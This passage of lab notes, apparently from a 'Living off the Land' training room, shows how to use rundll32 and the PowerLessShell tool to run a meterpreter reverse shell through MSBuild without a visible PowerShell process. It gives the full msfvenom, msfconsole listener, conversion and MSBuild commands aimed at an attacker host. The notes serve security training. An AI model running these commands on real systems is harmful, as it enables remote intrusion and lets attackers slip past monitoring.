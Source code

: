 The above image shows replacing the Target with `rundll32.exe` to execute JavaScript code.

Checkout this [Github repo](https://github.com/theonlykernel/atomic-red-team/blob/master/atomics/T1023/T1023.md) for more information and techniques.

**No PowerShell:**

In 2019, threat detection report stating that PowerShell is the most used technique for malicious activities in turn organization started to monitor or block powershell.exe from being executed.

Introducing **PowerLessShell** a python-based tool that generates malicious code to run on a target machine without showing an instance of the PowerShell process. PowerLessShell relies on MSBuild, a platform for building applications, to execute remote code.

```C
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
```

Generate a PowerShell payload to make it suitable to work with MSBuild:

```C
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1
```

Of course a listener (One liner):

```C
msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4443;exploit"
```

Navigate to the PowerLessShell directory and convert our msfvenom `.ps1` file into a file compatible with MSBuild:

```C
python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
```

Once the conversion is complete, transfer the `.csproj` file to the victim (for demonstration purposes use simple python server) and build it with `MSBuild.exe`:

```C
c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```

Wait for the build to finish to receive the reverse shell then have a look at Task Manager and see if PowerShell process:

Attacker:

![[Living off the Land-3.png]]

Task Manager at Victim:

![[Living off the Land-4.png]]


### Questions and Problems
---
## Conclusion


